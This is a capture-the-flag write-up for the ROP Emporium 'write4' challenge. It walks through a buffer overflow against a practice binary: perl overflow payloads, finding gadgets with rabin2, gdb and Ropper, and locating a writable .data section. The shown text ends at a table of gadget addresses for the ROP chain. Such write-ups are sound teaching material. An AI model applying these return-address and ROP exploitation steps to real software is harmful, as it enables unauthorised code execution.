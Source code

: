 # write4
The challenge is available [here](https://ropemporium.com/challenge/write4.html).

## Black-Box Test
Like in all the challenges so far, we will also conduct a test now to discover the behavior of the software. Afterwards, we will find that the return address index is the same as in the previous challenges.

```
./write432
```
![](./0.png)
```
perl -e 'print "X"x44 . "\xef\xbe\xad\xde"' | ./write432
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## In-depth research
I assume that anyone reading this solution has already read the instructions for the challenge. We will find the address of the `print_file` function in the next command.

```
rabin2 -i write432
```
![](./3.png)

Additionally, we will also find the address of the regular helper function.

```
rabin2 -qs write432 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

Our goal is to make the call `print_file("flag.txt")`. Is the string "flag.txt" present in the binary? The instructions state that it is not. Let's verify this.

```
rabin2 -z write432
```
![](./5.png)

Indeed, there are no helpful strings. Let's take a look at the `usefulFunction`.

```
gdb write432
```
```
set disassembly-flavor intel
```
```
disas usefulFunction
```
![](./6.png)

To summarize, the `usefulFunction` calls `print_file` with one parameter on the stack. This parameter is the address of the string `"nonexistent"` from the previous image (you can also print it out to confirm). Therefore, `usefulFunction` executes `print_file("nonexistent")`.

To verify this in the best way possible, let's call `usefulFunction`. So let's exit the debugger (with the command `q`) and run the next command.

```
perl -e 'print "X"x44 . "\x2a\x85\x04\x08"' | ./write432
```
![](./7.png)

Okay, let's try again after creating a file named `nonexistent`.

```
echo ABCD > nonexistent
```
```
perl -e 'print "X"x44 . "\x2a\x85\x04\x08"' | ./write432
```
![](./8.png)

Indeed, the file was printed. Now, let's focus on the main issue of the current challenge, which is the absence of the string "flag.txt". To address this, we need to push parts of the string onto the stack and place it somewhere in memory.

This means we need to look for three things:
* a writable memory location
* a gadget that reads bytes from the stack to a register
* and a gadget that writes from a register to memory.

We'll start by searching for a writable memory location.

```
readelf -S write432
```
![](./9.png)

So, the `.data` section looks like a good candidate. It's writable, and its size is 8 bytes, which is just enough for our needs.

After some research and searching, I've also found two gadgets that are perfectly suited for our purpose.

```
python3 ~/ropper/Ropper.py
```
```
file write432
```
```
search pop
```
```
search /1/ mov [%], %
```
![](./10.png)

The combination of these two gadgets is simply perfect. The `edi` register will be used for the writable memory address, as derived from the `mov-gadget`. So, the `ebp` register will hold parts of the string "flag.txt". According to the `pop-gadget`, we learn that in the ROP chain, we will first write the address, followed by the relevant part of the string.

Now we have all the information we need.

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type   | Address    | Description                         |
|---------------|--------|------------|-------------------------------------|
| print_file    | Func   | 0x080483d0 | The entry address in the PLT table. |
| pop2registers | Gadget | 0x080485aa | pop edi; pop ebp; ret;              |
| mov3memory    | Gadget | 0x08048543 | mov dword ptr [edi], ebp; ret;      |

